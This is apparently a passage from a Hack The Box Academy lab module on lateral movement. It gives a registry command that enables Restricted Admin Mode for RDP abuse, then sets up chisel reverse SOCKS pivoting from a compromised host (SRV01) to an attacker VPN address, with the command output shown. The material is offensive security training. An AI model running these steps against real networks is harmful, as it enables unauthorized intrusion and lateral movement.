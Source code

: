   Remote Desktop Service (RDP)

```cmd-session
C:\Tools> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD
```

**Note:** Only members of the Administrators group can abuse `Restricted Admin Mode`.

## Pivoting

It is common that we will need to use pivoting to perform lateral movement, in the module [Pivoting, Tunneling and Port Forwarding](https://academy.hackthebox.com/module/details/158) we explain everything we need to know about pivoting.

In this lab, we have access to one single host. To connect to the other machines from our Linux attack host, we will need to set up a pivot method; in this case, we will use [chisel](https://github.com/jpillora/chisel).

We will need to configure a `socks5` SOCKS proxy on port `1080` in the `/etc/proxychains.conf` file:

  Remote Desktop Service (RDP)

```shell-session
BusySec@htb[/htb]$ cat /etc/proxychains.conf | grep -Ev '(^#|^$)' | grep socks
socks5 127.0.0.1 1080 
```

Next, on our Linux machine, we will initiate reverse port forwarding server:

  Remote Desktop Service (RDP)

```shell-session
BusySec@htb[/htb]$ ./chisel server --reverse 
2024/03/28 07:09:08 server: Reverse tunnelling enabled
2024/03/28 07:09:08 server: Fingerprint AKOstLSoSTPQPp2PVEALM6z9Jx0IQVEEmO7bOSan1s4=
2024/03/28 07:09:08 server: Listening on http://0.0.0.0:8080
2024/03/28 07:10:49 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Then, in `SRV01`, we will connect to the server with the following command `chisel.exe client <VPN IP> R:socks`:

  Remote Desktop Service (RDP)

```powershell-session
PS C:\Tools> .\chisel.exe client 10.10.14.207:8080 R:socks
2024/03/28 06:10:48 client: Connecting to ws://10.10.14.207:8080
2024/03/28 06:10:49 client: Connected (Latency 137.6381ms)
```

**Note:** Those steps are always required when we see the use of `proxychains` during the module. Alternatively, we can also use tools such as [Ligolo-ng](https://github.com/nicocha30/ligolo-ng), which is recommended if using PwnBox.

## Pass the Hash and Pass the Ticket for RDP
